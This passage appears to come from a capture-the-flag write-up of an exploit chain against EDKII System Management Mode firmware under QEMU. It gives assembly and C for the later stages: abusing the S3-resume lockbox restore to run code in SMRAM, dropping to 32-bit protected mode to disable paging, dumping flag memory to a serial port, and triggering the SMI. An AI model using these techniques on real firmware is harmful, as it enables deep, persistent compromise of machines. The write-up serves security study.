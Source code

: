 ```asm
  ret
```

During S3 Resume, `InternalRestoreAllLockBoxInPlaceFromSmram` copies the
stage 2 payload to the code right after the call, and the payload executes as
soon as `InternalRestoreAllLockBoxInPlaceFromSmram` returns. SMRAM is open,
so I overwrite the SMI handler for `SmmLockBoxHandler` since I already have
code to invoke SmmLockbox.

### Stage 3: SMM payload disables paging and switch to protected mode

```asm
payload_stage3:
  push $0x8
  lea protectedmode(%rip),%rax
  push %rax
  retfq
protectedmode: .code32
  mov $(0x80010033 - 0x80000000),%eax
  mov %eax,%cr0
```

Because I'm too lazy to find the correct page table address for 0x44440000, I
prefer to just disable paging. However, one can't disable paging in 64-bit
long mode. Attempting to do so in QEMU TCG would cause it to switch to 16-bit
real mode. I'd rather not deal with segmentation and 16-bit assembly, so I
just switch to 32-bit protected mode (using an existing segment descriptor set
up by EDKII) before turning off paging.

### Stage 4: "Protected" mode SMM payload dumps flag

```asm
  mov $0x44440000,%esi
  mov $0x3f8,%dx
print_loop:
  lodsb
  outb %al,(%dx)
  jmp print_loop
```

Just a simple read memory and dump to serial via IO port 0x3f8.

### Epilogue: Setting off the chain of events

```C
pm_suspend(PM_SUSPEND_MEM);

/* Could be any SMI pretty much */
lockbox(&(union lockboxparam){ .restoreall = {
   .Header.Command      = EFI_SMM_LOCK_BOX_COMMAND_RESTORE_ALL_IN_PLACE,
   .Header.DataLength   = sizeof (EFI_SMM_LOCK_BOX_PARAMETER_RESTORE_ALL_IN_PLACE),
   .Header.ReturnStatus = (UINT64)-1,
}});
```
